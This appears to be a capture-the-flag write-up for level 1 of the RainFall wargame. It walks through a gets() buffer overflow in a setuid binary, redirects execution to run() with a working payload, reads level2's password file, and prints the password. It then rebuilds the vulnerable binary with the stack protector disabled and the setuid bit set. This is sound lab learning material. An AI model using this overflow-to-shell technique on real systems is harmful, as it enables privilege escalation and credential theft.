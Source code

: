 # Level 1

## Vulnerability

Buffer overflow exploit

## Context

```
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
Note: the owner of this binary is level2. 

## Solution

Let's see what the binary does. 
```
level1@RainFall:~$ ./level1
[...]
```
It looks like it's waiting on input from the stdin. Let's take a look in gdb. 
```
level1@RainFall:~$ gdb ./level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>: 	and    $0xfffffff0,%esp
   0x08048486 <+6>: 	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```
We can see here the binary calls the C function ```gets```, which copies a string from stdin to a buffer. 
Let's see if we can cause a buffer overflow. A buffer overflow allows us to change the flow of execution of the program.
```
level1@RainFall:~$ python -c 'print "a"*76' | ./level1
Illegal instruction (core dumped)
```
So we've effectively triggered a stack overflow here.
The next step is to look for where we can regain control

```objdump``` will give us a deeper look at the assembly instructions in this binary file. 
We use the ```-M intel``` flag for Intel syntax. 
```
level1@RainFall:~$  objdump -d -M intel level1
[...]
08048444 <run>:
[...]
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```
Here we find a run command and ```system()``` call that we can exploit. 
If we run system("/bin/sh"), [it will launch a shell](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands) that will run with the same priveleges as the calling program. 


```
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
So the password for level2 is ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```!

## Recreate Exploited Binary

As user level2, create source_level0.c, then compile in /tmp/.
```
level2@RainFall: cd /tmp
level2@RainFall: gcc source.c -fno-stack-protector -o source_level1
```
Edit permissions including suid, then move the binary to home directory.
```
level2@RainFall: chmod u+s source_level1
level2@RainFall: chmod +wx ~; mv source_level1 ~
```
Exit back to user level1, then run the binary.
```
level2@RainFall:~$ exit
exit
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | /home/user/level1/source_level1
```

